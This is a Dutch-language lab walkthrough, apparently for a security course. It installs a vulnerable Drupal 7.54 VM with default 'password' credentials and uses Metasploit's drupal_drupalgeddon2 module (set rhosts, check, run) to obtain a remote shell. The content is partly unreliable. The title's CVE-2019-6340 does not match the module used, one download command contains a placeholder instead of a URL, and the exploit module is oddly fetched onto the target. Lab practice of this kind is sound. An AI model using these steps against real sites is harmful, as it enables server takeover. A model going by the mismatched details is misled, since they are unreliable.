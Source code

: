 # CVE-2019-6340

## Drupal 7.x en 8.x - - RESTful Web Services unserialize() Remote Command Execution [Exploit](https://nvd.nist.gov/vuln/detail/CVE-2019-6340)

- we kunnen door een exploit die veroorzaakt is door een sanitization fout in de `Drupal 7/8 RESTful Web Services` module, een remote php code execution uitvoeren.

- We gaan [module](https://github.com/rapid7/metasploit-framework/blob/master/documentation/modules/exploit/unix/webapp/drupal_drupalgeddon2.md) gebruiken van metasploit om de exploit uit te voeren.

- we moeten hiervoor eerst drupal installeren en de module `RESTful Web Services` installeren.

## VM Setup

- We gebruiken een debian 11 desktop vm vdi van osboxes (zodat we makkelijk kunnen copypasten).

- We gebruiken vboxmanage om de vm te maken en te starten, deze zal een simpele debian 11 gui vm aanmaken met 2gb ram en 2 cpu cores, deze vm zal ook 2 netwerk adapters hebben, 1 voor de host-only adapter en 1 voor de NAT adapter.

## drupal installeren

- we gaan eerst wget installeren zodat we de drupal installatie script kunnen downloaden.

```bash
sudo apt-get update
sudo apt-get install wget
```

- daarna gaan we mysql-server 5.7 repository opzetten (8 werkt niet met drupal 7).
Het zal vragen welke versie we willen installeren, we kiezen eerst voor debian buster (10) en dan voor mysql 5.7.

```bash
    wget https://dev.mysql.com/get/mysql-apt-config_0.8.18-1_all.deb &&
    sudo dpkg -i mysql-apt-config_0.8.18-1_all.deb 
```

- we kunnen eindelijk onze script downloaden en runnen.

```bash
    wget https://raw.githubusercontent.com/rapid7/metasploit-framework/master/modules/exploits/unix/webapp/drupal_drupalgeddon2.rb &&
    sudo wget drupalInstall.shLinK To be added &&
    sudo chmod +x drupalInstall.sh &&
    sudo ./drupalInstall.sh
```

- deze script zal drupal 7.54 installeren en de mysql database opzetten.
met root als gebruikersnaam en wachtwoord password voor de database.
er zal ook een drupal database aangemaakt worden met de naam drupal en password als wachtwoord.

- De nodige modules zullen ook gedownload worden(je moet wel nog de modules activeren in de drupal admin panel).

- als de script klaar is zou je normaal gezien drupal moeten kunnen bereiken op http://localhost/index.php of http://xxx.xxx.xxx.xxx/index.php (xxx.xxx.xxx.xxx is het ip van de vm) als u vanop een andere de kali vm wilt bereiken.

- we doen de basis configuratie van drupal en maken een admin account aan.

- we zetten entity en restful web services aan in de modules pagina.

- vanop kali vm gaan we de exploit uitvoeren.

## Exploit

- we starten metasploit op en zoeken de exploit.

```bash
msfconsole
```

- we gaan een externe module  gebruiken die we gevonden hebben.

```bash
use exploit/unix/webapp/drupal_drupalgeddon2
```

- we gaan de exploit configureren.

```bash
set rhosts xxx.xxx.xxx.xxx (ip van de vm)
set verbose true
check
run
```

- als alles goed is gegaan zou je nu van op uw terminal een shell moeten hebben op de vm.

- testen of het werkt.

```bash
whoami
```

## notes

- voor de externe module te gebruiken moet je een connectie hebben met het internet
- uw kali vm moet een host-only adapter als dezelfde die de vm heeft.
- errors zullen verschijnen op up drupal pagina, dit komt door php versie 7.4 die niet compatibel is met drupal 7.